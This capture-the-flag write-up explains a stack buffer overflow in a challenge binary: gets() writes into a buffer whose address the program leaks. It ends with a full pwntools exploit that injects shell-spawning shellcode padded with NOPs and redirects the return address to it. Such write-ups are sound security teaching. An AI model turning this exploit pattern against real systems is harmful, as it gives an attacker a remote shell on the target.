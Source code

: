 The code from the disassembly shows that the program prints out the address to the variable that we can write to.

```c
__int64 func0()
{
  _BYTE v1[160]; // [rsp+0h] [rbp-A0h] BYREF

  printf("Speed limit: %p\n", v1);
  return gets(v1);
}
```

Since our stack is executable, we can write our shellcode straight to the `v1` variable and if our return at the end of this function returns to the same `v1` variable, our shellcode gets executed.

For our payload to fill the rest of the variable, we can use `asm('nop')` because it is a single byte instruction that does nothing and won't be executed.

Final exploit:
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './palmbeach'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

io = start()

# Offset to EIP
padding = 168

# Grab speed limit address
speed_limit = int(io.recvline().split(b" ")[-1].strip(), 16)
info(f'speed_limit address %#x: {speed_limit}')

shellcode = asm(shellcraft.sh())

payload = flat(
    shellcode,
    asm('nop') * (padding - len(shellcode)),
    speed_limit
)

io.sendline(payload)
io.interactive()
```
